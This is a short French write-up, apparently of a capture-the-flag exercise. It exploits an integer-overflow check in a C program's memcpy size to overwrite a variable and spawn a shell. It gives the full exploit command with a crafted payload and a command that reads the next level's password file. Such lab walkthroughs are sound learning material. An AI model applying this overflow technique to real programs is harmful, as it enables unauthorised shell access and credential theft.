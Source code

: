 # Bonus 1
---
```c
int main(int argc, const char **argv){
	char dest[40];
	int v5;
	v5 = atoi(argv[1]);
	if ( v5 > 9 )
		return 1;
	memcpy(dest, argv[2], 4 * v5);
	if ( v5 == 1464814662 )
		execl("/bin/sh", "sh", 0);
	return 0;
}
```

on vois que __argv[1]__ et set dans un int, puis il est comparer pour voir si il est > 9

ensuite cette int est cette dans memcpy pour copier __argv[2]__ dans __dest[]__

len(dest) == 40

return atoi == int

third param memcpy == size_t (unsigned long long int)

avec c'est information on peut envoyer un nb negatif pour qu'il enderflow le size_t pour qu'il repasse en positif.

Le nombre choisi est -2147483637. Parce que size-t(-2147483637 * 4) == 44 

on execute donc la command:

```bash
./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```


Dans le terminal on execute la commande suivante pour récupérer le password de bonus2:

```bash
cat /home/user/bonus2/.pass
```